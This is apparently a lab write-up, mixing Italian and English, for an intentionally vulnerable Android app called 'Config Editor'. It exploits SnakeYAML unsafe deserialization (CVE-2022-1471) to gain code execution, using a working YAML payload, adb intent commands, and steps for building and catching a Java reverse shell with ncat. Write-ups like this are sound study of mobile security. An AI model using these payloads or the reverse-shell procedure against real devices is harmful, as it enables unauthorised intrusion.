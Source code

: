 # Config Editor

Achieve Remote Code Execution via a Config Editor app in Android by exploiting vulnerabilities in a third party library.

## Table of Contents

1. [Look Around](#look-around)
2. [Static Analysis](#static-analysis)
3. [Dynamic Analysis](#dynamic-analysis)
4. [Exploiting](#exploiting)
5. [Shell is the way](#shell-is-the-way)
6. [And now?](#and-now)
7. [Utils](#utils)
8. [References](#references)

## Look Around

L'applicazione viene utilizzata per leggere file con estensione `.yaml`

## Static Analysis

Considerazioni sul file `AndroidManifest.xml`

### Permissions

+ `READ_EXTERNAL_STORAGE`, `WRITE_EXTERNAL_STORAGE`, `MANAGE_EXTERNAL_STORAGE` , permessi per permettere all'applicazione di potere salvare, leggere e scrivere file sulla memoria esterna `sdcard`
+ `INTERNET` , utilizzata per accedere ad Internet

```xml
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"/>
```

### Implicitly Exported Component

An implicitly exported component could allow access to the component Activity, MainActivity.
In questo caso, l'applicazione gestirà i link con scheme `file://`, `http://` e `https://` e file con estensione  `.yaml`

```xml
       <activity android:name="com.mobilehackinglab.configeditor.MainActivity" android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:scheme="file"/>
                <data android:scheme="http"/>
                <data android:scheme="https"/>
                <data android:mimeType="application/yaml"/>
            </intent-filter>
        </activity>
```

### MainActivity & yaml.load

`loadYaml` funzione interessante al suo interno: `Object deserializedData = yaml.load(inputStream);`
Vediamo, attraverso gli `import` nell'app e nelle subdirectory presenti `/org/yaml/snakeyaml` che il metodo `load`
proviene da SnakeYAML.
Da documentazione: `SnakeYAML is a YAML 1.1 processor for the Java Virtual Machine version 8+.`
Cercando su internet per SnakeYAML e Deserialization notiamo che [CVE](https://nvd.nist.gov/vuln/detail/CVE-2022-1471)

```txt
SnakeYaml's Constructor() class does not restrict types which can be instantiated during deserialization. Deserializing yaml content provided by an attacker can lead to remote code execution. We recommend using SnakeYaml's SafeConsturctor when parsing untrusted content to restrict deserialization. We recommend upgrading to version 2.0 and beyond.
```

Non sono stato in grado di trovare la versione esatta di SnakeYAML ma cercando per SnakeYaml's `SafeConsturctor` in `/org/yaml/snakeyaml` non troviamo occorrenze quindi ho presupposto fosse una buona strada da perseguire.

## Dynamic Analysis

Sanity check:

1. Crea un file `yaml`
2. Metti in ascolto un listener python sulla porta 8080
3. Simula una connessione http con un file yaml con adb
L'applicazione dovrebbe aprirsi e tenterà di leggere il file (se vuoto, l'output sarà vuoto)

Commands:

```sh
$linux> touch example.yaml
$linux> python3 -m http.server 8080
$linux> adb shell am start -a android.intent.action.VIEW -d  "http://$IP:8080/example.yaml" -n com.mobilehackinglab.configeditor/.MainActivity
```

## Exploiting

Adattamento SnakeYAML per la nostra App Android.

Nel path `/com/mobilehackinglab/configeditor/LegacyCommandUtil.java`
che ci può permettere tramite deserializzazione di richiamare LegacyCommandUtil ed eseguire comandi di sistema.

```java
public final class LegacyCommandUtil {
    public LegacyCommandUtil(String command) {
        Intrinsics.checkNotNullParameter(command, "command");
        Runtime.getRuntime().exec(command);
    }
}
```

Creiamo file `yaml`

```yaml
pwn: !!com.mobilehackinglab.configeditor.LegacyCommandUtil [ "/bin/touch /data/data/com.mobilehackinglab.configeditor/pwn.txt" ]
```

Testiamo questa RCE

```sh
$linux> touch pwn.yaml
$linux> python3 -m http.server 8080
$linux> adb shell am start -a android.intent.action.VIEW -d  "http://$IP:8080/pwn.yaml" -n com.mobilehackinglab.configeditor/.MainActivity
$linux> adb shell ls /data/data/com.mobilehackinglab.configeditor
output: pwn.txt # in listing file
```

<p align="center">
<img src="assets/pwn.png" width="500"/>
</p>

## Shell is the way

Creare reverse shell in Java

```sh
javac --release 17 AndroidReverseShell.java
mkdir classes
/Users/dipa/Library/Android/sdk/build-tools/33.0.2/d8 AndroidReverseShell.class --intermediate --file-per-class --output classes
mv classes/AndroidReverseShell.dex classes/classes.dex
zip classes/reverse.jar classes/classes.dex
# manual way, skip this, use only for testing
adb push reverse.jar /data/data/com.mobilehackinglab.configeditor/
/system/bin/dalvikvm -cp /data/data/com.mobilehackinglab.configeditor/reverse.jar AndroidReverseShell
```

```sh
python3 -m http.server 8081 # shell.yaml and reverse.jar in this folder
ncat -lnvp 1337 # listener for reverse shell
adb shell am start -a android.intent.action.VIEW -d  "http://192.168.1.26:8081/shell.yaml" -n com.mobilehackinglab.configeditor/.MainActivity # emulate browser interaction
```

![Alt Text](assets/exploit.gif)

## And now?

RCE / ACE su utente Android non ci dà molti privilegi e non possiamo muoverci liberamente nel file system. Quali sono i passi successivi?

### Android Kernel Privesc & SandBox Escape

+ Android Kernel Privesc, Sandbox Escape, etc

## Utils

+ SemGrep Rules

## References

+ [android-command-line-reverse-shell](https://malacupa.com/2018/10/25/android-command-line-reverse-shell)
